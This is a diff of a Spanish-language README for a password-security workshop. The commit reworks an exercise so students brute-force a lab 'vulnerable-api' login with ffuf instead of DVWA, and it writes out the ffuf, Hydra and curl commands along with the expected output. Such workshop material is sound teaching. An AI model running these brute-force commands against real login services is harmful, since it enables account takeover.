

Before and after one commit to edelahozuah/intro-to-password-workshop, a Markdown page: exercises/module5/README.md, the part around the change. Shown at 95% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Fix FFUF exercise: Use vulnerable-api with real users instead of DVWA

````diff
--- a/exercises/module5/README.md
+++ b/exercises/module5/README.md
@@ -169,29 +169,72 @@ hydra -l admin -P /wordlists/rockyou-subset.txt dvwa http-post-form \
 
 ---
 
-### Ejercicio 2b: Ataque Web Moderno con FFUF 🚀
+### Ejercicio 2b: Ataque Web con FFUF (API Vulnerable) 🚀
 
-Hydra es clásico, pero herramientas modernas como **FFUF** (Fuzz Faster U Fool) son más rápidas y flexibles para HTTP.
+Como DVWA tiene CSRF, usaremos la **vulnerable-api** que es una API REST sin protección CSRF.
 
 **Ventajas de FFUF**:
 - Escrito en Go (muy rápido)
-- Fácil filtrado de respuestas (por tamaño, código, palabras)
-- Más transparente con peticiones HTTP
+- Fácil filtrado por tamaño, código HTTP, o regex
+- Ideal para APIs REST
+
+#### Paso 1: Verificar la API
 
 ```bash
-# Ataque con FFUF al login de DVWA
-# -w: wordlist
-# -X POST: método
-# -d: datos (body)
-# -mr: match regex (validar éxito) o -fr (filtrar regex de fallo)
+# Ver endpoints disponibles
+curl http://vulnerable-api:5000/
 
-ffuf -w /wordlists/rockyou-subset.txt -u http://dvwa/login.php \
-     -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-     -d "username=admin&password=FUZZ&Login=Login" \
-     -fr "Login failed"
+# Probar login manualmente
+curl -X POST http://vulnerable-api:5000/api/login \
+  -H "Content-Type: application/json" \
+  -d '{"username":"jdoe","password":"wrongpassword"}'
+
+# Respuesta de fallo (401): {"success":false,"error":"Invalid username or password"...}
 ```
 
-**Análisis**: FFUF probará cada palabra en `FUZZ`. La opción `-fr "Login failed"` ocultará las respuestas que contengan "Login failed", mostrando solo la correcta.
+#### Paso 2: Ataque con FFUF
+
+```bash
+# Bruteforce de password para usuario "jdoe"
+ffuf -w /wordlists/rockyou-subset.txt \
+     -u http://vulnerable-api:5000/api/login \
+     -X POST \
+     -H "Content-Type: application/json" \
+     -d '{"username":"jdoe","password":"FUZZ"}' \
+     -mc 200 \
+     -v
+
+# Explicación:
+# -mc 200: Solo mostrar respuestas con código 200 (éxito)
+# Los fallos devuelven 401, así que se filtran automáticamente
+```
+
+#### ¿Cómo saber si funcionó?
+
+FFUF mostrará una línea con la contraseña encontrada:
+
+```
+[Status: 200, Size: 150, Words: 12, Lines: 1]
+    * FUZZ: password
+```
+
+Si no aparece nada después de probar todas las palabras:
+- El usuario puede no existir en la base de datos
+- La contraseña no está en el wordlist
+
+#### Paso 3: Verificar credenciales encontradas
+
+```bash
+# Probar la contraseña encontrada
+curl -X POST http://vulnerable-api:5000/api/login \
+  -H "Content-Type: application/json" \
+  -d '{"username":"jdoe","password":"password"}'
+
+# Respuesta exitosa: {"success":true,"token":"TOKEN_..."}
+```
+
+> [!TIP]
+> **Usuarios válidos en vulnerable-api**: Consulta el archivo `vulnerable-api/users_db.json` para ver qué usuarios existen y sus contraseñas (para verificar tus resultados).
 
 ---
 
````
